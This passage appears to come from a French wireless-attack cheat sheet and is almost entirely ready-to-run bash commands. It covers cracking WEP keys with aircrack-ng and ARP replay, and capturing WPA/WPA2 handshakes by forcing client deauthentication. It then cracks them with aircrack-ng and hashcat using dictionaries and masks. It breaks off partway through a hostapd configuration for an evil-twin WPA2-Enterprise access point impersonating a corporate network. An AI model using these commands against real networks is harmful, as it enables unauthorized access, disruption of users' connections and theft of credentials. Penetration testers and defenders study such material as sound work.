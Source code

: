 ## ⚔️ Attaques par Type de Sécurité

### Attaques WEP (Déprécié mais encore présent)
```bash
# Capture trafic WEP
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep_capture wlan0

# Génération de trafic (si réseau inactif)
sudo aireplay-ng -1 0 -a AA:BB:CC:DD:EE:FF wlan0  # Association
sudo aireplay-ng -3 -b AA:BB:CC:DD:EE:FF wlan0    # ARP replay

# Crack WEP avec aircrack-ng
sudo aircrack-ng wep_capture-01.cap

# Alternative avec besside-ng (automatique)
sudo besside-ng -c 6 wlan0
```

### Attaques WPA/WPA2 PSK
```bash
# Capture du handshake
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0

# Déauthentification pour forcer handshake
sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0

# Vérification handshake capturé
sudo aircrack-ng handshake-01.cap

# Crack avec dictionnaire
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt handshake-01.cap

# Crack avec hashcat (GPU)
sudo aircrack-ng handshake-01.cap -J hashcat_format
hashcat -m 2500 hashcat_format.hccapx rockyou.txt

# Attaque par masque hashcat
hashcat -m 2500 -a 3 handshake.hccapx ?d?d?d?d?d?d?d?d
```

### Attaques WPA2 Enterprise (EAP)
```bash
# Capture certificats et identités
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w enterprise wlan0

# Evil Twin pour WPA2 Enterprise
# Configuration hostapd pour EAP
cat > hostapd_eap.conf << 'EOF'
interface=wlan0
driver=nl80211
ssid=CorporateWiFi
hw_mode=g
channel=6
ieee8021x=1
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=ca.pem
server_cert=server.pem
private_key=server.key
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-EAP
rsn_pairwise=CCMP
```
